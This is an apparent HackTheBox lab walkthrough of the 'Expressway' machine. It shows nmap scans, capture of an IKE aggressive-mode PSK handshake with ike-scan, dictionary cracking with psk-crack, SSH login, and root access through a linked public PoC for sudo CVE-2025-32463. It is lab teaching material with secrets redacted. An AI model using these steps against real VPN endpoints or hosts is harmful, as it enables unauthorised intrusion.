



> **Writeup by [@Certifa](https://github.com/Certifa)**
> 🗓️ HTB Machine: *Expressway* • 🧠 Difficulty: Easy • 🐧 Linux

# 🧠 HackTheBox - Expressway Walkthrough



---

## 📚 Table of Contents

- [🧠 HackTheBox - Expressway Walkthrough](#-hackthebox---expressway-walkthrough)
  - [📚 Table of Contents](#-table-of-contents)
  - [🔎 Overview](#-overview)
  - [📖 About](#-about)
  - [⚡ TL;DR](#-tldr)
  - [🖥️ SETUP / NOTES](#️-setup--notes)
  - [🚀 RECON](#-recon)
  - [🔍 ENUMERATION](#-enumeration)
  - [💥 EXPLOIT](#-exploit)
  - [🛡️ PRIVILEGE ESCALATION](#️-privilege-escalation)
  - [📘 LESSONS LEARNED](#-lessons-learned)
  - [📚 REFERENCES](#-references)

---

## 🔎 Overview

**Machine:** Expressway

**Difficulty:** Easy

**OS:** Linux

**Points:** 20

**Status:** Active (write-up sanitized, no flags)

---

## 📖 About

Expressway — Overview

Expressway is an easy box built around a chained local-escalation misconfiguration. From an exposed IKE service we recovered a PSK and used discovered SSH keys to obtain an ike user shell. Local enumeration gave us the information about the sudo version with `sudo --version`, linking it to a CVE and making it spawn a root shell. Impact: full system compromise. Mitigation: remove setuid from non-distribution binaries, replace the custom sudo with the distro package, rotate PSKs/SSH keys, and audit for writable SSH artefacts.

**Note:** walkthroughs are sanitized and do **not** include flags or any live secrets.

---

## ⚡ TL;DR

**IKE PSK → SSH keys → misconfigured setuid sudo → root.**

## 🖥️ SETUP / NOTES

VM: Parrot
Tools: nmap, IKE, PSK recovery, SSH/key ops, Local enum

---

## 🚀 RECON

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-22 13:42 UTC
Nmap scan report for 10.129.211.69
Host is up (0.0100s latency).

PORT STATE SERVICE VERSION
🟢 22/tcp (ssh) OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-22 13:42 UTC
Nmap scan report for 10.129.211.69
Host is up (0.012s latency).
Not shown: 56 closed udp ports (port-unreach), 43 open|filtered udp ports (no-response)
PORT STATE SERVICE
🟢 500/udp open isakmp

Nmap done: 1 IP address (1 host up) scanned in 56.79 seconds
```

- 22/tcp open ssh OpenSSH 10.0p2 Debian 8 (protocol 2.0)
- 500/udp open isakmp

I ran both TCP and UDP scans (custom nmap alias). Result: no web/application ports — only SSH (TCP/22) and ISAKMP (UDP/500).

---

## 🔍 ENUMERATION

With UDP/500 open I ran an IKE scan (aggressive mode) to probe ISAKMP; aggressive mode often returns the peer identity and a handshake blob suitable for offline PSK cracking.

```

$ sudo ike-scan -A 10.129.211.69

```

Let's see what we get.

```

tarting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.211.69 Aggressive Mode Handshake returned HDR=(CKY-R=a9ba19488d0dd2f6) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.5: 1 hosts scanned in 0.017 seconds (60.36 hosts/sec). 1 returned handshake; 0 returned notify

```

We observe the peer identity: ike@expressway.htb, a useful discovery we can leverage in a targeted scan

```

> sudo ike-scan -A -P ike@expressway.htb 10.129.211.69

```

```

WARNING: gethostbyname failed for "ike@expressway.htb" - target ignored: Success
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.211.69 Aggressive Mode Handshake returned HDR=(CKY-R=99a2e5a5558973ca) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):

<IKE_PSK_HASH_REDACTED>

Ending ike-scan 1.9.5: 1 hosts scanned in 0.017 seconds (60.52 hosts/sec). 1 returned handshake; 0 returned notify

```

We successfully captured the IKE PSK handshake hash ready for cracking. Let's save the hash and crack it. Note: use **psk-crack**, not hashcat or John because the format is specific to ISAKMP aggressive mode and incompatible with standard password hashes.

```

$ psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt

```

Let's see what we get out of it.

```

Starting psk-crack [ike-scan 1.9.5] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "<PASSWORD>" matches SHA1 hash <HASH>
Ending psk-crack: 8045040 iterations in 4.903 seconds (1640982.54 iterations/sec)

```

We have found the password!

---

## 💥 EXPLOIT

Using the cracked PSK as the password and the discovered identity ike, I authenticated via SSH:

+ Run `ssh ike@10.129.211.69`

After logging in, basic enumeration (ls) located user.txt (see **user.png**) — user flag captured.



First flag down!

---

## 🛡️ PRIVILEGE ESCALATION

I checked sudo privileges (`sudo -l`); the command prompts for the user password (no passwordless sudo). Next I inspected sudo --version to look for known issues.

Let's see what version of sudo it runs.

```

ike@expressway:~$ sudo --version
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17

```

Sudo reports version 1.9.17. I searched for public advisories/PoCs affecting this version and tested an available PoC.

A public PoC targeting **CVE-2025-32463** (https://github.com/K1tt3h/CVE-2025-32463-POC/tree/main), a local privilege escalation vulnerability in sudo v1.9.17 that was used to escalate privileges.

I saved and executed the PoC locally (`nano exploit.sh → paste → chmod +x exploit.sh → ./exploit.sh`); the exploit succeeded and produced a root shell (see root.png).

Root shell obtained via CVE-2025-32463 PoC. System fully compromised



We got root!

---


## 📘 LESSONS LEARNED

- Use IKE scans on hosts with UDP/500 and attempt PSK recovery where applicable.
- Inspect installed sudo versions and available PoCs for local privilege escalation.
- **Don’t** skip UDP scans during reconnaissance.

---

## 📚 REFERENCES

https://github.com/K1tt3h/CVE-2025-32463-POC
